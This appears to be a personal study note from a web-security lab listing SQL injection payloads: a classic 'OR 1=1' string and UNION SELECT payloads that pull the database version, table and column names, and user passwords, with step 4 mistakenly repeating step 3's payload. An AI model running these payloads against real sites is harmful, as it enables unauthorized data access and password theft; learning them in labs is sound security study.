 
[[1. Introduction to SQL Injection]]

## SQL Injection Payloads : 

- Classic SQLi Payloads : 

	- **1' OR '1'='1
	- ![[{1E9AFC5D-ABC8-46E3-AD1C-0EB7A4F1B6DF}.png]]

	- **jeremy' union select null,null,null#
	- ![[{B3F99883-71EE-4B4B-AC84-BAD85A9E26EC}.png]]

	- Once you have this : 
		- *You can use `union` to extract information from the DB.

	1. **SQL version : 
		- `jeremy' union select null,null,version()#
		- ![[{97DA6F2F-B0B2-479F-BE77-9EA653AF2F56}.png]]
	2. **Get other table names : 
		- `jeremy' union select null,null,table_name from information_schema.tables#`
		-  ![[{45A3C4FF-CA58-420E-863B-E5DB77489685}.png]]
		- ![[{73A6E7E6-0E6A-41A8-A15C-7BF55B667EC4}.png]]
	3. **Get other column names : 
		- `jeremy' union select null,null,column_name from information_schema.columns#`
		- ![[{1EA249A9-0F9F-48FA-B90D-06A9DEAF433A}.png]]
		- ![[{4938031A-1BB8-42E4-B0C6-3D1C911AA74E}.png]]
	4. **Get other schema names : 
		-  `jeremy' union select null,null,column_name from information_schema.columns#`
		- ![[{B6C0C7AC-B7A1-4482-B80E-CE013D020E82}.png]]
	5. **Other variations of Union based payloads

		- `jeremy' union select null,null,database()#.
		
		- `jeremy' union select null,null,table_name from information_schema.tables WHERE table_schema='bb-labs'#`
			- ![[{D2A8AD43-ED68-4E17-8825-39ACAF1B69C1}.png]]
	6. **Get User password or in general if u want to get information from any tables : 

		- `jeremy' union select null,null,password from injection0x01#`
		- ![[{F7E9C2EE-C0A6-4DE2-8F79-62C5241F0D7D}.png]]